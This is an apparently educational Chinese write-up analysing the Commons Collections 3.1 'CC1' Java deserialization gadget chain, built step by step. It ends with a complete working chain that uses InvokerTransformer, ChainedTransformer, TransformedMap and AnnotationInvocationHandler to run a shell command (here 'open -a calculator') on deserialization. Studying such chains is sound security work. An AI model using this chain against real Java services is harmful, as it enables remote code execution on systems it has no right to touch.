

# CommonsCollections1分析


## 1.环境搭建

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
</dependency>
```

- AnnotationInvocationHandler调试与Find问题

  https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/8dd0918b97a4 下载对应版本的zip，在jd8u65文件夹下存在一个src.zip，解压后将src/share/classes/sun文件夹放在src下。



- 调用Find usages找不到，可以修改配置如下：

  

- 版本限制
  - jdk<=8u65

## 2.调试分析

常见的命令调用方式：

```java
Runtime r = Runtime.getRuntime();
r.exec("open -a calculator");
```

当我们利用InvokerTransformer时，它的transform方法如下：

```java
public Object transform(Object input) {
    if (input == null) {
        return null;
    }
    try {
        Class cls = input.getClass();//获取input的class对象
        Method method = cls.getMethod(iMethodName, iParamTypes);//通过class对象获取方法
        return method.invoke(input, iArgs); //方法调用还是通过input
    }
      ....
}
```

同样可以构造出执行calc的代码，如下：

```java
new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"}).transform(r);
```

根据java反序列化的调用方式，需要找到一处调用transform方法的位置。

在CC1链中利用的是`TransformedMap#checksetValue`方法，如下：

```java
protected Object checkSetValue(Object value) {
    return valueTransformer.transform(value);
}
```

在`TransformedMap`中是实现了`AbstractInputCheckedMapDecorator`接口，该接口中存在`setValue`方法调用到`checkSetValue`方法,代码如下：

```java
public Object setValue(Object value) {
    value = parent.checkSetValue(value);
    return entry.setValue(value);
}
```

通过`TransformedMap`可以用来装饰另一个`Map`以变换添加的对象，也就是说我们可以将命令执行的代码改写为如下：

```java
Runtime r = Runtime.getRuntime();

InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a calculator"});
HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put("name","123");
Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, invokerTransformer);

for (Map.Entry o : decorate.entrySet()) {
    o.setValue(r);
}
```

那么接下来需要找到一处调用`setValue`方法的位置，这里发现`AnnotationInvocationHandler#readObject`中存在`memberValue.setValue`的调用形式且`memberValue`值可控，使用它继续构造链子,代码如下：

```java
  Runtime r = Runtime.getRuntime();

  InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a calculator"});
  HashMap<Object, Object> hashMap = new HashMap<>();
  hashMap.put("name","123");
  Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, invokerTransformer);


  Class<?> annotation = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
  Constructor<?> annotationConstructor = annotation.getDeclaredConstructor(Class.class, Map.class);
  annotationConstructor.setAccessible(true);
  Object o = annotationConstructor.newInstance(Bean.class, decorate);
```

但是该构造很明显存在问题：1.Rumtime不可序列化的. 2.`memberValue.setValue(xxxx)`其中xxx不可控.

为了解决这两个问题，需要利用到其它类，可以使用`ChainedTransformer`它的代码如下：

```java
public Object transform(Object object) {
    for (int i = 0; i < iTransformers.length; i++) {
        object = iTransformers[i].transform(object);
    }
    return object;
}
```

它实现的功能：依次调用每个Transformer.transform，将结果传递到下一个Transformer中，利用该功能改写一下命令执行的部分,代码如下：

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a calculator"}),
});
chainedTransformer.transform(r);
```

通过以上代码，能够通过`chainedTransformer.transform(r);`进行利用链的调用，但是前面提到的Runtime对象是不能够序列化的，所以还得换种方式。

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
    new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
    new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
    new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"}),
});
chainedTransformer.transform(Runtime.class);
```

通过这样的形式，解决了Runtime不可序列化的问题，还有一个问题就是`setValue(xxxx)`其中xxxx是不可控的，所以像上面的调用，无法直接传入`Runtime.class`,这个点需要利用到`ConstantTransformer`,它的transform代码如下：

```java
public Object transform(Object input) {
    return iConstant;
}
```

调用之后原样返回，这样解决setValue值不可控的问题,成功解决了这两个问题，代码如下：

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
    new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
    new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"}),
});

chainedTransformer.transform("123");
```

结合之前提到的，构造出完整的链子：

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
    new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
    new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"}),
});

HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put("name","123");
Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, chainedTransformer);


Class<?> annotation = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> annotationConstructor = annotation.getDeclaredConstructor(Class.class, Map.class);
annotationConstructor.setAccessible(true);
Object o = annotationConstructor.newInstance(Bean.class, decorate);

unSerialize(serialize(o));
```


## 3.反序列化调用图


